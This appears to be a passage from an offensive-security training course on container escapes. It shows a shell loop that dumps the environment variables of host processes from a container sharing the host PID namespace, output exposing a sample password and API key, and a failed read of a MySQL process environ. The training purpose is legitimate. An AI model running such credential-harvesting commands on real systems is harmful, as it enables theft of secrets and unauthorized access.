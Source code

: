 Let's condense our script into a single line and execute it in the container.

```
victim:/# for e in $(ls /proc/*/environ); do echo; echo $e; cat $e| tr '\0' '\n'; done > envs.txt
cat: can't open '/proc/1/environ': Permission denied
...
cat: can't open '/proc/871/environ': Permission denied
```

> Listing 34 - Running Script to Loop environ Entrys

Even though we're running as _root_ in the container, processes that lack the CAP_SYS_PTRACE capability cannot read the process information of processes running as another user. These processes will throw a "Permission Denied" error. We can, however, find the root processes that we were allowed to read in **envs.txt**.

```
victim:/# cat envs.txt
...

/proc/40553/environ
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
HOSTNAME=env_leaker
USER=admin
PASSWORD=VignVjZ5n6LHd7N28ywqw9dO
API=96ae5761-966e-41a9-a809-021fbfe6facc
HOME=/root
...
victim:/#
```

> Listing 35 - Reviewing Environment Variables

While reviewing the environment variables, we'll find another set of credentials that might be useful. It's become common for processes to be configured using environment variables. For example, the MySQL container image[1](https://portal.offsec.com/learning-paths/cloud-attacks-container-escapes-skill-path-178608/learning/container-escapes-information-gathering-51034/discovering-sensitive-data-51090/host-pid-accessing-host-processes-51043#fn-local_id_153-1) might have its password for root configured via environment variables. Let's inspect the mysqld process we found earlier.

Let's find the process ID again and investigate its **environ** entry.

```
victim:/# ps | grep mysqld
40554 999       1:51 mysqld
54640 root      0:00 grep mysqld

victim:/# cd /proc/40554

victim:/proc/40554# cat environ
cat: can't open 'environ': Permission denied
```

> Listing 36 - Permission Denied when Accessing Environ

The MySQL process doesn't allow us to read the process information. This is because the MySQL container runs MySQL with a user ID of 999. Since this is different from our user ID (0), we cannot access its information. If we wanted to access it, we'd need to have access to the CAP_SYS_PTRACE capability. Let's verify that we don't have that capability. The victim container has access to the **capsh** binary that we can use with **--print** to display the capabilities.
